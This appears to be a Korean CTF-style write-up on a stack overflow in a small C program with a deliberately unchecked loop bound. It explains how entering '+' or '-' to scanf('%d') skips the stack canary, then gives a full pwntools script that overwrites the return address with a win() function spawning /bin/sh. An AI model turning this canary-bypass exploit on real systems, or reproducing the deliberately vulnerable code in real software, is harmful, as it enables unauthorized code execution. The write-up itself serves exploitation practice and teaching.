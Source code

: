 scanf의 서식문자에 맞지 않는 문자를 넣으면 버퍼링이 걸려서 입력을 들어가지 않고 바로 나가진다. 
```c
scanf("%d", a) //문자를 넣을경우 바로 나가진다. 
```
그러면 해당 문제를 봐보자.
```C
#include <stdio.h>
  
void win()
{
    execve("/bin/sh", 0 ,0);
}
  
int main(){
    int a[4] = {5555, 4444, 3333, 2222};
    int num;
  
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
  
    printf("win : %p\n", win);
  
    printf("how many do you want to input? > ");
    scanf("%d", &num);
  
    for(int i = 0; i < num; ++i)
    {
        printf("buf[%d] >> ", i);
        scanf("%d", &a[i]);
    }
    printf("result\n");
    for(int i = 0; i < num; ++i)
        printf("buf[%d] >> %d\n", i, a[i]);
  
    return 0;
}
```

checksec
![](https://i.imgur.com/OrA6FKH.png)

해당 코드는 a배열에 0,1,2,3 index를 참조하여 값을 바꿀 수 있다. 그런데 num을 사용자의 입력을 받기 때문에 buffer overflow가 발생할 수 있다. 하지만 canary가 적용되어있기 때문에 overflow가 불가능할 것 같아보인다. 
여기서 한번 4를 입력하고 1111,2222,3333,4444를 입력해보자.
![](https://i.imgur.com/76HBaEJ.png)

1111,2222,3333,4444 로 바뀌어있다.

그럼 a 를 입력해보자.
![](https://i.imgur.com/FcGecsU.png)
바로 나가지며 이상하게 끝나며 b\[0]에 값이 들어가지 않는다.
그러면 한번 +혹은 - 를 입력해보자
![](https://i.imgur.com/F3ly9MY.png)
나가지지 않고 대신 아무것도 입력되지 않은채 다음 index로 넘어간다.
즉 우리는 아무 입력도 하지 않고 다음 index로 넘어갈 수 있다는 것이다. 
한번 1111, + , - ,4444 를 입력해보자
![](https://i.imgur.com/Js7jA9E.png)
1과 4만 값을 바꿀 수 있다. 즉 우리는 이를 이용해서 canary를 건들이지 않고 ret에 접근할 수 있다는 것이다.
해당 코드를 풀어보자.
![](https://i.imgur.com/NBJaVpX.png)
buffer의 크기는 0x18 로 한 번 입력이 4바이트이니 6번을 입력해야 한다. 그리고 canary부분은 +혹은 - 로 넘어간 후 sfp는 아무값으로 채우고 ret을 win 주소로 overwrite하면 셸을 딸 수 있다. 이 때 주소는 8바이트고 한 번 입력에 4바이트씩 입력하니 하위 4바이트 입력 이후 상위 2바이트를 입력한다.

```python
from pwn import *
  
# context.log_level = 'debug'
  
p = process("./sc")
  
p.recvuntil(b': 0x')
win_add = int(p.recv(12), 16)
  
p.sendlineafter("> ", b'12')
  
p.sendlineafter(">> ", b'1111')
p.sendlineafter(">> ", b'2222')
p.sendlineafter(">> ", b'3333')
p.sendlineafter(">> ", b'4444')
p.sendlineafter(">> ", b'5555')
p.sendlineafter(">> ", b'6666')
p.sendlineafter(">> ", b'+')
p.sendlineafter(">> ", b'+')
p.sendlineafter(">> ", b'7777')
p.sendlineafter(">> ", b'8888')
  
win_add_under_8 = win_add % 0x100000000
win_add_on_4 = win_add // 0x100000000
  
 
p.sendlineafter(">> ", str(win_add_under_8))
p.sendlineafter(">> ", str(win_add_on_4))
  
 
p.interactive()
```

![](https://i.imgur.com/b4oeC28.png)

